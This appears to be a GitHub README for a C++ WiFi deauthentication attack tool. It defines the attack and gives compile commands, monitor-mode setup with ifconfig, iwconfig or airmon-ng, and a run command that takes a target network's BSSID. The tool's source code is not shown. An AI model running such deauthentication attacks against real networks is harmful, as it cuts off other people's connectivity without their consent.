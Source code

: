 # wifi-deauther
A WiFi/Wireless Network Deauthentication attack 
Written in C++ for Linux
__________________________

# What is deauthentication?
A WiFi deauthentication attack is an exploit where an attacker broadcasts a message to an access point to disconnect/disassociate itself from configured devices on the network, dropping the connection of said devices.

__________________________

# How to use

# Compile

    $ g++ wifi-deauther.cpp -o wifi-deauther

# _Monitor Mode_
You must have a wireless device with monitor mode capabilities otherwise this attack will not work!!!

_Method 1_:
Using the linux commands `ifconfig` and `iwconfig` you can put the device into monitor mode like this:

            $ ifconfig <device name> down
            $ iwconfig <device name> mode monitor
            $ ifconfig <device name> up

    Example $ ifconfig wlan0 down
    Example $ iwconfig wlan0 mode monitor
    Example $ ifconfig <device name> up
    

_Method 2_:
If you have the `aircrack-ng` suite installed, you can put the device into monitor mode like this:

            $ airmon-ng start <device name>
    
    Example $ airmon-ng start wlan0
    
# Run

            $ ./wifi-deauther <DEVICE NAME> <NETWORK BSSID>
    Example $ ./wif-deauther wlan0mon 12:34:56:AB:CD:EF        # You can find a networks BSSID/MAC Address using `airodump-ng` or `iw` 
